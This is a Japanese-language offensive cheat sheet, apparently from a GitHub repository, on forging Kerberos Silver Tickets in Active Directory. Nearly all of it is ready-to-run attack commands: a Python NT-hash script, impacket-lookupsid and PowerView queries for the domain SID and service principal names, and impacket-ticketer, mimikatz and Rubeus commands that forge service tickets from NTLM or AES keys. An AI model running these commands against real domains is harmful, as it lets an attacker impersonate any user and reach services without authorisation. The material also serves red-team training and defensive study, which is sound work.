 # Silver Tickets攻撃

`Silver Ticket攻撃`は、Active Directory (AD) 環境におけるサービスチケットの悪用を含む。この手法は、`サービスアカウントのNTLMハッシュを取得すること`に依存し、コンピュータアカウントなどのチケットを偽造するために使用される。この偽造されたチケットを使用することで、攻撃者はネットワーク上の特定のサービスにアクセスでき、任意のユーザーに偽装することができる([Pass The Ticket攻撃](https://github.com/namahano/Cheat-Sheet/blob/main/Active%20Directory/Movement/Kerberos/Pass%20The%20Ticket.md))。

## 攻撃に必要なもの

- サービスアカウントのRC4キー(NTLMハッシュ) or AESキー(128 bitまたは 256 bit)

  [NTLM Hash Generator](https://codebeautify.org/ntlm-hash-generator)

  スクリプトを使う

  ```python
  import sys
  import hashlib
  
  def calc_nt_hash(p):
      return hashlib.new('md4', p.encode('utf-16le')).hexdigest()
  
  if __name__ == '__main__':
      print(calc_nt_hash(sys.argv[1]))
  ```

- Domain

- DomainのSID

  ```
  impacket-lookupsid -hashes 'LMhash:NThash' '<DOMAIN>/<USERNAME>:<PASSWORD>@<DC_IP>'
  ```

- ServicePrincipalName

  PowerView

  ```
  Get-DomainUser -Identity <USERNAME> | select serviceprincipalname
  ```

  AD Module

  ```
  Get-ADUser -Filter {SamAccountName -eq "<USERNAME>" } -Properties ServicePrincipalNames
  Get-ADUser -Identity <USERNAME> -Properties ServicePrincipalName | select ServicePrincipalName
  ```

  `ServicePrincipalName` と `SID` はBloodHoundからも取得可能

# Ticketを取得

## Linux

with an NT hash

```
impacket-ticketer -nthash <NTLM_HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <ServicePrincipalName> "<USERNAME>"
```

with an AES (128 or 256 bits) key

```
impacket-ticketer -aesKey <AesKey> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <ServicePrincipalName> "<USERNAME>"
```

## Windows

### mimikatz

with an NT hash

```
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<NTLM_HASH> /user:<USERNAME> /target:<Target> /service:<SPN>
```

with an AES (128 or 256 bits) key

```
# AES 128 key
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes128:<Aes128_Key> /user:<USERNAME> /target:<Target> /service:<SPN>

# AES 256 key
kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes256:<Aes256_Key> /user:<USERNAME> /target:<Target> /service:<SPN>
```
### Rubeus

with an NT hash

```
Rubeus.exe silver /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<NTLM_HASH> /user:<USERNAME> /service:<SPN> /nowrap
```

with an AES (128 or 256 bits) key

```
# AES 128 key
Rubeus.exe silver /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes128:<Aes128_Key> /user:<USERNAME> /service:<SPN> /nowrap

# AES 256 key
Rubeus.exe silver /domain:<DOMAIN> /sid:<DOMAIN_SID> /aes256:<Aes256_Key> /user:<USERNAME> /service:<SPN> /nowrap
```

